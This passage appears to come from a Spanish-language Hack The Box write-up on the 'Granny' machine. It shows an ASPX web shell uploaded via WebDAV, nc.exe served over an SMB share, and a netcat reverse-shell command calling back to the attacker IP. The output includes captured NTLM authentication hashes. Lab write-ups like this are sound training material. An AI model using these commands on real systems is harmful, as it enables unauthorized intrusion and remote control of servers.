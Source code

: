 ```bash
Transferiendo aspx_cmd.txt a '/aspx_cmd.txt':
 Progreso: [                              ]   0.0% of 1398 bytes Progreso: [=============================>] 100.0% of 1398 bytes exitoso.
dav:/> MOVE aspx_cmd.txt aspx_cmd.aspx
Moviendo '/aspx_cmd.txt' a '/aspx_cmd.aspx':  exitoso.
dav:/>
```

A partir de aquí, podriamos ir a la web y tratar de visualizar nuestro recurso:

![](/assets/images/htb-granny/granny_cmd.png)

Tenemos ejecución de comandos a nivel de sistema; por lo tanto, vamos a entablarnos una reverse shell. Primeramente, buscamos el archivo `nc.exe` en nuestra máquina, lo traemos a nuestro directorio de trabajo y nos compartmos un servidor por SMB.

```bash
❯ locate nc.exe
/usr/share/sqlninja/apps/nc.exe
❯ cp $(!!) .
cp $(locate nc.exe) .
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Nos ponemos en escucha por el puerto 443 y ejecutamos el siguiente comando en la web shell:

```bash
start /b \\10.10.14.16\smbFolder\nc.exe -e cmd 10.10.14.16 443
```

Y vemos que tenemos una conexión:

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.15,1030)
[*] AUTHENTICATE_MESSAGE (\,GRANNY)
[*] User GRANNY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY)
[*] User GRANNY\GRANNY$ authenticated successfully
[*] GRANNY$::HTB:043d21608523d7a700000000000000000000000000000000:b3ce0c226d649b1f7ee422cb50515b441b84027107699c3b:aaaaaaaaaaaaaaaa
```